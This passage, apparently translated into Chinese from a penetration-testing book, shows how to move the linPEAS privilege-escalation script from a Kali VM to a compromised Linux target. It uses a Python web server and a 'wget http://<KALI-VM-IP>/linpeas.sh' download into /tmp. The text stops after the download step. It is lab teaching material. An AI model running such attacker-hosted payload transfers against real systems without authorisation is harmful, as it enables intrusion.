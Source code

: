 ](Images/B17389_13_006.jpg)

图 13.6 – linPEAS Bash 脚本

下载完 Bash 脚本到我们的 Kali 虚拟机后，我们需要将`linpeas.sh`文件传输到我们的目标虚拟机。由于没有 Meterpreter 会话，这不能自动完成。因此，我们需要使用 Linux 特定的工具来下载该二进制文件。

为了将`linpeas.sh`文件传输到我们的目标系统，我们需要在 Kali 虚拟机上设置一个 Web 服务器，用于托管该文件。这样，我们就可以在目标系统上下载它。可以通过以下步骤来完成：

1.  为了在我们的 Kali 虚拟机上设置一个 Web 服务器，我们可以利用`SimpleHTTPServer` Python 模块来提供脚本。可以通过在存储`linpeas.sh`二进制文件的目录中运行以下命令来实现：

    `sudo python -m SimpleHTTPServer 80`

    注意

    `SimpleHTTPServer`是一个适用于 Python2 的 Python 模块，对于 Python3，它也以`http.server`的形式提供。

    如下截图所示，`SimpleHTTPServer`模块将在 Kali 虚拟机的 IP 地址上通过`80`端口提供该目录中的文件：

    ![图 13.7 – SimpleHTTPServer linpeas](img/B17389_13_007.jpg)

    ](Images/B17389_13_007.jpg)

    图 13.7 – SimpleHTTPServer linpeas

1.  为了在目标系统上下载`linpeas.sh`文件，我们可以使用`wget`工具。然而，在下载该二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到临时目录，如下截图所示：![图 13.8 – Linux 临时目录](img/B17389_13_008.jpg)

    ](Images/B17389_13_008.jpg)

    图 13.8 – Linux 临时目录

1.  我们现在可以使用`wget`工具从 Kali 虚拟机下载文件到我们的目标系统。可以通过在目标系统上运行以下命令来实现：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    输出如下所示：

![图 13.9 – wget linpeas](img/B17389_13_009.jpg)
